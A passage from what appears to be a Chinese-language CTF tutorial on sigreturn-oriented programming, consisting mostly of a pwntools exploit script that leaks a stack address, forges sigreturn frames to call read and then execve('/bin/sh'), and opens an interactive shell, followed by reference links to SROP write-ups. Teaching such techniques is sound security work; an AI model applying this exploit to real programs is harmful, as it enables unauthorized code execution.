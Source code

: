 ```

gdb.attach(p)

p.send('\xb3')
stack_addr = u64(p.recv()[8:16])
log.success('Found stack addr: 0x%x' % stack_addr)

# sigframe for read(0, new_stack_addr, 0x400)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
payload = p64(entry) + 'a' * 8 + str(sigframe)
p.send(payload)

# send 15 bytes so that rax=15
sigreturn = p64(syscall_ret) + 'a' * 7
p.send(sigreturn)

# same thing, sigframe for execve('/bin/sh', 0, 0)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr + 0x120
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
payload = p64(entry) + 'a' * 8 + str(sigframe)
payload += (0x120 - len(payload)) * 'a' + '/bin/sh\x00'
p.send(payload)

# then sigreturn
p.send(sigreturn)

p.interactive()

```

#### 参考链接

https://github.com/nushosilayer8/pwn/tree/master/srop

https://www.freebuf.com/articles/network/87447.html

https://github.com/ctfs/write-ups-2015/tree/master/defcon-qualifier-ctf-2015/pwnable/fuckup 一道经典题